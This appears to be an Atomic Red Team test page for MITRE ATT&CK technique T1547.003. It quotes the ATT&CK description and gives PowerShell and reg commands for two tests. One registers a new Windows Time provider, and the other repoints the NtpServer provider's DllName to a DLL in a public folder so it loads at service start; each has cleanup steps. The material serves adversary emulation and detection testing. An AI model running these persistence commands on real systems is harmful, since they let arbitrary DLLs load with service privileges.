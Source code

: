 # T1547.003 - Time Providers
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/003)
<blockquote>Adversaries may abuse time providers to execute DLLs when the system boots. The Windows Time service (W32Time) enables time synchronization across and within domains.(Citation: Microsoft W32Time Feb 2018) W32Time time providers are responsible for retrieving time stamps from hardware/network resources and outputting these values to other network clients.(Citation: Microsoft TimeProvider)

Time providers are implemented as dynamic-link libraries (DLLs) that are registered in the subkeys of `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W32Time\TimeProviders\`.(Citation: Microsoft TimeProvider) The time provider manager, directed by the service control manager, loads and starts time providers listed and enabled under this key at system startup and/or whenever parameters are changed.(Citation: Microsoft TimeProvider)

Adversaries may abuse this architecture to establish persistence, specifically by creating a new arbitrarily named subkey  pointing to a malicious DLL in the `DllName` value. Administrator privileges are required for time provider registration, though execution will run in context of the Local Service account.(Citation: Github W32Time Oct 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create a new time provider](#atomic-test-1---create-a-new-time-provider)

- [Atomic Test #2 - Edit an existing time provider](#atomic-test-2---edit-an-existing-time-provider)


<br/>

## Atomic Test #1 - Create a new time provider
Establishes persistence by creating a new time provider registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProvider.
The new time provider will point to a DLL which will be loaded after the w32time service is started. The DLL will then create the file AtomicTest.txt
in C:\Users\Public\ as validation that the test is successful.

Payload source code: https://github.com/tr4cefl0w/payloads/tree/master/T1547.003/

**Supported Platforms:** Windows


**auto_generated_guid:** df1efab7-bc6d-4b88-8be9-91f55ae017aa






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
net stop w32time
Copy-Item "$PathToAtomicsFolder\T1547.003\bin\AtomicTest.dll" C:\Users\Public\AtomicTest.dll
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\AtomicTest" /t REG_SZ /v "DllName" /d "C:\Users\Public\AtomicTest.dll" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\AtomicTest" /t REG_DWORD /v "Enabled" /d "1" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\AtomicTest" /t REG_DWORD /v "InputProvider" /d "1" /f
net start w32time
```

#### Cleanup Commands:
```powershell
net stop w32time
reg delete "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\AtomicTest" /f
rm -force C:\Users\Public\AtomicTest.dll
net start w32time
```





<br/>
<br/>

## Atomic Test #2 - Edit an existing time provider
Establishes persistence by editing the NtpServer time provider registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProvider.
The time provider will point to a DLL which will be loaded after the w32time service is started. The DLL will then create the file AtomicTest.txt
in C:\Users\Public\ as validation that the test is successful.

Payload source code: https://github.com/tr4cefl0w/payloads/tree/master/T1547.003/

**Supported Platforms:** Windows


**auto_generated_guid:** 29e0afca-8d1d-471a-8d34-25512fc48315






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
net stop w32time
Copy-Item "$PathToAtomicsFolder\T1547.003\bin\AtomicTest.dll" C:\Users\Public\AtomicTest.dll
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_SZ /v "DllName" /d "C:\Users\Public\AtomicTest.dll" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_DWORD /v "Enabled" /d "1" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_DWORD /v "InputProvider" /d "1" /f
net start w32time
```

#### Cleanup Commands:
```powershell
net stop w32time
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_SZ /v "DllName" /d "C:\Windows\SYSTEM32\w32time.DLL" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_DWORD /v "Enabled" /d "0" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_DWORD /v "InputProvider" /d "0" /f
rm -force C:\Users\Public\AtomicTest.dll
net start w32time
```





<br/>
